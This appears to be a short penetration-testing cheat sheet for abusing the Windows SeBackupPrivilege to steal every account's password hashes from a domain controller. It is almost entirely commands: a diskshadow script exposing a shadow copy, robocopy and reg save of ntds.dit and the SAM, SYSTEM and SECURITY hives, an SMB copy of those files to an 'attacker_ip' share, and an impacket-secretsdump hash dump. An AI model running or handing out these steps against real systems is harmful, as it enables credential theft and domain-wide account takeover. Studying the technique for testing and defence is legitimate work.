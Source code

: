 # SeBackupPrivileges 
we can restore the backup files that contains the All system user NTLM Hash 

# Steps
1. Create a .dsh file and convert it
2. upload the compiler file
3. Disk shadow and robocopy of the files
4. save the files
5. Download it using the smbserver

# Create viper.dsh file and paste this
```language
set context persistent nowriters
add volume c: alias viper
create
expose %viper% x:
```
# Convert and upload  it
```language
unix2dos viper.dsh

upload viper.dsh
```
# Make a Disk Shadow
```language
diskshadow /s viper.dsh
```
# Save the files
```language
robocopy /b x:\windows\ntds . ntds.dit
reg save hklm\system c:\windows\tasks\system
reg save hklm\sam c:\windows\tasks\sam
reg save hklm\security c:\windows\tasks\security
```
# Download it 
```language
#start a smb server
impacket-smbserver share ./ -smb2support -user 0xmr -pass ''

# connect it
net use \\attacker_ip\share /user:0xmr

# copy all files
copy sam, ntds.dit, system, security \\attacker_ip\share 
```
# Dump (DC sync)
```language
impacket-secretsdump -ntds ntds.dit -system system -sam sam -security security local
```
